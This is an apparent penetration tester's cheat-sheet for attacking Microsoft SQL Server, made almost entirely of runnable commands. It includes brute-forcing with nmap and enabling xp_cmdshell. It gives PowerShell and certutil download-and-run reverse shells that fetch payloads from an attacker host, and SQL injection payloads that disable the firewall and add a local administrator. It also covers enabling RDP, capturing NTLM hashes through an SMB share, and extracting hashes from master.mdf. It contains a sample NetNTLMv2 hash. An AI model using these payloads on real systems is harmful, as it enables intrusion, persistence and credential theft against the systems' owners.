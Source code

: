 #### Quick Enuemration
```bash - kali
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET
```

```bash - kali
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts $TARGET
```

#### Connect with mssql-shell.rb  - 404 page
```bash - kali
wget https://raw.githubusercontent.com/dr0pb3ar/mssql-shell/master/mssql-shell.rb
```

```bash - kali
sudo gem install tiny_tds colorize
```

```bash - kali
sudo apt install freetds-dev
```

```bash - kali
chmod +x mssql-shell.rb
```

```bash - kali
sudo ./mssql-shell.rb -u $USER -p $PASSWORD $TARGET
```

```bash - kali
select @@version;
```

```bash - kali
:xp_cmdshell whoami
```

If this errors, just follow [[Port 1433 - MSSQL ~#sp_cmdshell]] or [[Port 1433 - MSSQL ~#xp_cmdshell]] to enable the feature.

[[1._Reverse Shells (WIN)]]

[[Python#Server]]

[[4._File Transfers]]

```bash - kali
:xp_cmdshell certutil -urlcache -split -f http://$KALI/reverse.exe 
```

[[rlwrap]]

```bash - kali
:xp_cmdshell reverse.exe 
```

#### Connect with mssql_shell.py - BROKEN?
```bash - kali
wget https://raw.githubusercontent.com/Alamot/code-snippets/master/mssql/mssql_shell.py
```

Input Target IP, username and password.

```bash - kali
python mssql_shell.py
```

#### Connect with MSSQLClient 
```bash - kali
mssqlclient.py $HOSTNAME$/$USER:'$PASSWORD'@$TARGET -windows-auth
```

#### Connect with sqsh

```bash - kali
sqsh -S $TARGET:1433 -U sa
```

```bash - kali
RPSsql12345
```

#### sp_cmdshell

You may have to enter "go" after every command!

![[Pasted image 20220408112248.png]]

```SQL
sp_configure 'show advanced options', '1'
```

```SQL
RECONFIGURE
```

```SQL
sp_configure 'xp_cmdshell', '1'
```

```SQL
RECONFIGURE
```

```SQL
EXEC master..xp_cmdshell 'whoami'
```

[[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

[[rlwrap]]

```SQL
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://$KALI/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

#### xp_cmdshell
```SQL
enable_xp_cmdshell
```

```SQL
go
```

```SQL
xp_cmdshell 'date'
```

```SQL
 go
```

```SQL
xp_cmdshell whoami
```

```SQL
go
```

#### Powershell reverse shell
```python - kali
sudo python3 -m http.server 80
```

[[Python#Server]]

[[rlwrap]]

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

```SQL
xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/powershell_reverse_tcp.ps1') | powershell -noprofile -"
```

```SQL
go
```

Python:
```SQL
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```

[https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

#### xp_cmdshell RDP
```SQL
' UNION ALL SELECT 1,2--
```
  
```SQL
' UNION ALL SELECT @@version,2--
```

```SQL
' union select @@version,2; WAITFOR DELAY '0:0:5' ; --
```
   
```SQL
' union select @@version,2; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; EXEC sp_configure 'xp_cmdshell', 1; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'ping localhost'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'dir c:'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net user foobar Password123 /add'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

```bash
rdesktop -a 16 -z -u foobar -p Password123 $TARGET
```

RDP was already enabled in the above example. If disabled, we can try enabling RDP with:

```SQL
' union select user,null; exec master..xp_cmdshell ''reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f''; --
```

#### Enumeration
```SQL
select @@version;
```

```SQL
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

```SQL
SELECT name FROM master.sys.databases
```

```SQL
use volume
```

#### Steal NTLM hash
```bash - kali
mkdir share
```

```bash - kali
smbserver.py -smb2support share share/
```

```bash - kali
exec master..xp_dirtree '\\$KALI\share\',1,1 
```

`mssql-svc::$HOSTNAME:4141414141414141:fcf5ce3bc7c6f2d4cc186363f57a4afb:0101000000000000805cb28d9e1fd801cfdf67806cdb917000000000010010006e006b006f004f006c0070006b0049000200100061006800630076007a00630045005900030010006e006b006f004f006c0070006b0049000400100061006800630076007a0063004500590007000800805cb28d9e1fd80106000400020000000800300030000000000000000000000000300000bdca754ed8e5710ee15f0f7d0238f5927e0ad033b727c638d8831685eafab2d20a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000`

![[Hashcat#NetNTLMv2]]

#### Getting hashes with tftp

Using [[Abbreviated dir]]'s, we put together the path
`C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\DATA\master.mdf`

However, we cannot read from there, so we aim to the backup folder:
`"C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf" $TARGET`

[[Port 69 - TFTP#tftp py]]

```bash - kali
git clone https://github.com/xpn/Powershell-PostExploitation && cd Powershell-PostExploitation/ && cd Invoke-MDFHashes
```

Load PowerShell in Kali:
```bash - kali
pwsh
```

```PowerShell - kali
Import-Module ./Get-MDFHashes.ps1
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/$TARGET/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.Framework.dll
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/$TARGET/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.RawCore.dll  
```

* Be sure to widen you terminal to see the whole hash!

```PowerShell - kali
Get-MDFHashes -mdf /home/kali/Desktop/$TARGET/master.mdf
```

